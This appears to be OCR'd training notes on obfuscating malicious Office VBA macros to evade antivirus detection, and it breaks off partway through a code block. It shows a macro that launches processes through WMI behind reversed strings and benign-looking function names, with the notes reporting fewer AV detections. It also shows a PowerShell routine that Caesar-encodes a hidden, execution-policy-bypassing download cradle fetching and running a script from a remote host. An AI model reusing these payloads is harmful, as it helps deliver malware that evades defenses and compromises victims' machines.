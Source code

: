     📌 **Result:**
    
    - Works, but `StrReverse` is itself suspicious.
    - **Improvement**: Wrap `StrReverse` in a custom benign function.

### **Improved StrReverse**

- Wrap in a benign function with non-suspicious names.
    
    ```visual-basic
    Function Bears(Cows)
        Bears = StrReverse(Cows)
    End Function
    
    Sub MyMacro()
      Dim strArg As String
      strArg = Bears("))'txt.nur/...//:ptth'(...)")
    
      GetObject(Bears(":stmgmniw")).Get(Bears("ssecorP_23niW")).Create strArg, Null, Null, pid
    End Sub
    ```
    
    📌 **Result:**
    
    - Detections drop from **7 → 4**.
    - AVs less likely to flag but still vulnerable to engines that reverse strings.

### Advanced Obfuscation – Custom Caesar Cipher + Decimal Encoding

- Convert each char → decimal ASCII → +17 (Caesar cipher).
    - Convert ASCII to decimal.
    - Apply Caesar shift (e.g., +17).
    - Pad to 3 digits.
    - Concatenate into encrypted string.
- Example PowerShell encryption (simplified):
    
    ```visual-basic
    $payload = "powershell -exec bypass -nop -w hidden -c iex((new-object system.net.webclient).downloadstring('http://192.168.119.120/run.txt'))"
    
    [string]$output = ""
    
    $payload.ToCharArray() | %{
        [string]$thischar = [byte][char]$_ + 17
        if($thischar.Length -eq 1)
        {
            $thischar = [string]"00" + $thischar
            $output += $thischar
        }
        elseif($thischar.Length -eq 2)
        {
            $thischar = [string]"0" + $thischar
            $output += $thischar
        }
        elseif($thischar.Length -eq 3)
        {
            $output += $thischar
        }
    }
    $output | clip
    